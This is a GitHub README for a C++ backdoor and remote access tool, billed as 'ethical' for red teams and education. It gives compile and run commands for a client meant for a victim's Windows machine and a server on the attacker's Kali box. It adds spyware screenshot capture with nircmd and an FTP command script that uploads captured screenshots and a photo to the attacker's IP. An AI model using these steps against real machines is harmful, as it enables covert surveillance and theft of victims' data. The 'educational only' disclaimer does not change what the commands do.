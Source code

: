 # C++ Backdoor/RAT </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes
**by Pol Galvez**

## How to Use</br>
1) **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/bin/client/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```

2)** Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/bin/server/server.exe
```
3) **Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Screenshot:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)
thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Playlist Creating similar RAT<br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs
https://youtu.be/6Dc8i1NQhCM<br>
Easy metasploit spyware:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd screenshot usage
nircmd.exe savescreenshot screen1.png

##ftp echos
echo open 192.168.1.171> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye


## License
Open Source<br>
**Free Software, Hell Yeah!**
